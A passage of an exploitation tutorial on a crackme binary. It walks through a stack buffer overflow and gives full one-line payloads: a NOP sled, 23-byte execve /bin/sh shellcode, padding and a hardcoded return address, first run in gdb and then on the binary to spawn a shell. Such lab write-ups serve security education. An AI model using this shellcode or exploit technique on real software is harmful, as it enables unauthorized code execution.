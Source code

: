 We now need a shellcode. You can write it yourself or you can find one that fits your needs on [shell-strom](http://shell-storm.org/shellcode/files/shellcode-827.php).

We now have all we need, we will start by inserting some x90 instructions in the buffer. The x90 instruction is called a NOP, it corresponds to a single clock time for the processor. So if the program executes those instructions it will not do anything until it arrives to our shellcode, it is called a NOP sled. We now put our shellcode just after the NOP sled, and we complete the offset with some padding to arrive to the 140 bytes. Finally we put the buffer address we took just before (`0xffffd510`), do not forget to put it in little endian.

So it should look like this: 100 bytes (NOP sled) + 23 bytes (shellcode) + 17 (padding) + the buffer address in little endian.

```sh
gdb$ run $(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 17 + "\x10\xd5\xff\xff"')
```

We still on `gdb` so we get a shell but we do not have the possibility to use it.
So let's redo this command out of `gdb`.

```sh
$ ./crackme-32 $(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90" * 17 + "\x10\xd5\xff\xff"')
```

Here we go!! We got a shell.

<br>
![](https://media.makeameme.org/created/sounds-like-someone-5ab911.jpg){:class="img-responsive"}